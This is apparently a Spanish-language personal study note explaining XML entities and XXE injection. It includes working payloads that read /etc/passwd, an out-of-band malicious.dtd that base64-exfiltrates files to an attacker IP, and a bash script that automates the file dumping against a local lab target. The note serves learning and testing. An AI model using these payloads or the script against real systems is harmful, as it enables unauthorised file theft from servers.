 ----
- Tags: #ataque #basico #ataques 
----

# ¿ Que es XML?

**XML** es un metalenguaje que permite definir lenguajes de marcas desarrollado por el World Wide Web Consortium utilizado para almacenar datos en forma legible.

XML (E**X**tensible **M**arkup **L**angague) se encarga de almacenar y transportar datos siguiendo una estructura de arbol.
![[xml.png]]

----

# Entidades 

Las **entidades** son una forma de representar a un elemento de datos , sin referenciar a los datos, esto en un documento XML.

Existen entidades **Genericas / Customizadas**, **Externas (XXE)**, **Predefinidas (&lt, &gt)]**. 

----

# ¿ Que es un XXE?

Un **XML External Entitiy Injection** o **XXE**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a revursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como apliacciones web o servicios web. 

Un ataque **XXE** mayormente implica la inyección en una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servodpr y puede resultar en la xposición de información sensible. Como en la mayoria de vulnerabilidades, esta vulnerabilidad se da cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe.

Con **XXE** no siempre se obtiene una exposición directa de información sensible en la respuesta, si no que aveces el atacante al igual qeu con las [[SQLI - (Inyecciones SQL)]] el atacante debe ir a "**ciegas**" a través de tecnicas adicionales. Esto puede ser más lento y requiere más trabajo que una explotación directa. sin embargo, puede ser efectivo en casos donde el atacante tiene una idea geenral de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado. 

A si tambien, muchas veces el **XXE** puede ser utilizado como un vector de ataque para explotar una vulnerabilidad [[SSRF - (Server-Side Request Forgery)]] para escanear puertos internos.

----

# Ataque 

Por ejemplo, si tuvieramos la sig petición en XML: 

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<name>dobliuw</name>
	<tel>11142131241</tel>
	<email>dobliuw@dobliuw.com</email>
	<password>dobliuw123</password>
</root>
```

Jugando con un **DTD** (Document Type Definition) y entidades Externas podemos explotar la vulnerabilidad

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY name "dobliuw" >]>
<root>
	<name>dobliuw</name>
	<tel>11142131241</tel>
	<email>&name;</email>
	<password>dobliuw123</password>
</root>
```

En este caso vemos que somos capaces de crear una entidad con `<!DOCTYPE foo [<!ENTITY name "dobliuw" >]>` y  hacer que el valor de tome en donde va el email con `&name`, en este caso es name por que la entidad definida se llama name

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd" >]>
<root>
	<name>dobliuw</name>
	<tel>11142131241</tel>
	<email>&myFile;</email>
	<password>dobliuw123</password>
</root>
```

Ahora, esto de llamar la entidad dentro de la estructura xml puede ser que no funcione, por lo que existe el concepto de **XEE OOB Blind (XML External Entity Out of Band a ciegas)** por lo que para explotarla podriamos ver si se logra hacer una petción http a nuestra maquina.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.1.38" > %myFile; ]>
<root>
	<name>dobliuw</name>
	<tel>12314124</tel>
	<email>dobliuw@dobliuw.com</email>
	<password>dobliuw123</password>
</root>
```

En ese caso, podriamos intentar llamar a un archivo en concreto, por ejemplo un "malicious.dtd" con una estructura de entidades para dumpear archivos del sistema de la maquina, recibiendo los archivos como petición http con su cadena en base64. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.1.38/malicious.dtd" > %myFile; ]>
<root>
	<name>dobliuw</name>
	<tel>12314124</tel>
	<email>dobliuw@dobliuw.com</email>
	<password>dobliuw123</password>
</root>
```

#### Malicious.dtd:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.1.38/?file=%file;'>">
%eval;
%exfil; 
```

Y obviamente, explotando nuestras habilidades de atacante, más que claro esta que podriamos crearnos un script en python, bash o cualquier lenguaje para automatizar esto al punto de simplemente escribir un archivo a dumpear y que se dumpee. Asi como tambien es importante tener en cuenta que podriamos realizar un [[SSRF - (Server-Side Request Forgery)]] con las **XXE**. 

```shell
#!/bin/bash 

function ctrl_c(){
	echo -e "\n\n\t[!] Quiting...\n\n"
	kill -9 $PID 
	wait $PID 2>/dev/null 
	/usr/bin/rm -f response
	/usr/bin/rm -f malicious.dtd 
	exit 1 
}

trap ctrl_c SIGINT

if [ $EUID -ne 0 ]; then 
	echo -e "\n\n\t[!] The scrip need runs like root :)\n\n"
else 
  python3 -m http.server 80 &>response &   # Levantamos en segundo plano un servidor http
  PID=$! # Guardamos en la variable PID el PID del proceso para al realizar ctrl c matarlo
  sleep 2 

  while true; do  
  
  echo -ne "\n[!] Introduce el archivo a leer: " && read -r file; # -r para que acepte espacios 
  
  evildtd="""
  <!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$file\">
  <!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://192.168.1.38/?file=%file;'>\">
  %eval;
  %exfil;""" # Estructura maliciosa para lograr el dumpeo de archivos 

  [[ -f "malicious.dtd" ]] && /usr/bin/rm malicious.dtd 
  echo "" > malicious.dtd
  echo $evildtd > malicious.dtd 


  # Automatizamos tambien la petición maliciosa
  /usr/bin/curl -s -X GET "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.1.38/malicious.dtd" > %myFile; ]>
  <root><name>dobliuw</name><tel>12314124</tel><email>dobliuw@dobliuw.com</email><password>dobliuw123</password></root>' &>/dev/null 

  echo -e "\n[+] $file : " && /usr/bin/cat response | /usr/bin/tail -n 1 | /usr/bin/grep -oP "/?file=\K[^.*]+" | /usr/bin/base64 -d
  done 
fi 
```

